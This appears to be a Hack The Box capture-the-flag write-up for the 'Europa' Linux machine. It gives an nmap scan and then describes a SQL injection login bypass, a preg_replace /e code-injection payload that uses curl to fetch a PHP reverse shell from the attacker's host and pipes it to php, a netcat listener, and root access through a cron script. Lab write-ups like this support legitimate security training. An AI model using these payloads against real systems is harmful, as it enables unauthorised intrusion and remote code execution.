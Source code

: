 # Europa
### Info:

OS: Linux <br>
IP: 10.10.10.22 <br>
Difficulty : medium <br>

### Enumeration:
```
# Nmap 7.70 scan initiated Fri Jan 11 20:43:44 2019 as: nmap -sC -sV -oA nmap 10.10.10.22
Nmap scan report for 10.10.10.22
Host is up (0.33s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 11 20:56:44 2019 -- 1 IP address (1 host up) scanned in 780.23 seconds
```
### Exploitation:
We see that at port 443 https is available therefore we try opening it using the `europacorp.htb` as the host and try for SQL INJECTION.
We find that interceptiing the request via burp suit <br>
and using Username as `admin@europacorp.htb'1 OR 1=1` and password anything gets us into the dashboard.
From here we go into the Tools section and find a generate api param which can be exploited using the `preg_replace` function. <br>
We interecept the request and change :
`/ipaddress/` with /vtun0/e` and the value with `system('curl http://10.10.16.16/php-reverse-shell.php | php')` <br>
Listening on the the specified port with : 
```
nc -lvnp 8002
```
gives us the user shell. <br>
### Privilege Escalation:
Using LinEnum.sh we find a suspicion inside the `/var/www/cronlabs` parameter and using that we create a script inside `/var/www/cmd` with
a script from pentest monkey which while listening on specific port gives us the root 
